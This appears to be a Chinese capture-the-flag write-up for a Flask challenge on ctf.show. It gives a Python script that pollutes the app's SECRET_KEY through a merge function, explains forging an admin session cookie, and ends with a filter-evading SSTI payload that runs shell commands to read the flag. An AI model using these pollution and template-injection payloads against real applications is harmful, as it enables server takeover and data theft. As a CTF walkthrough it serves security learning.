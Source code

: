 ![4](https://the0n3.top/medias/show-DSB/4.png)

题做的少了，踩坑了

- 直接把payload填在账号密码处了
- hackbar发送账号密码payload是表单类型，不会进入merge函数的污染操作


这里用python发包

```python
import requests
import json

url = "http://077305e9-a873-4e8f-aafe-034240ae3a96.challenge.ctf.show/register"

payload={
    "username": "3",
    "password": "3",
    "__init__": {
        "__globals__": {
            "app": {
                "config": {
                    "SECRET_KEY": "abc"
                }
            }
        }
    }
}

r = requests.post(url=url, json=payload)
print(r.text)
```

把cookie里的session user值取出来解码一下，伪造is_admin的值，用伪造的seesion替换原session

![5](https://the0n3.top/medias/show-DSB/5.png)


在sercet路由下，界面发生改变，提示可以在echo路由下注入，flask注入应该就是ssti了。这一步如果替换seesion后，发现自己登录的账号退掉了，说明你secret_key污染失败了

![6](https://the0n3.top/medias/show-DSB/6.png)

现在不用关注session了，只需要在echo路由下注入

测速config，可以看到回显。这里ssti不需要双花括号

![7](https://the0n3.top/medias/show-DSB/7.png)

出题人没有严格过滤，尝试发现可以执行命令回显出来

![8](https://the0n3.top/medias/show-DSB/8.png)

```python
self['__in''it__']['__glo''bals__']['__buil''tins__']['__impo''rt__']('o''s').popen('ls;ls /;nl /flag').read()
```
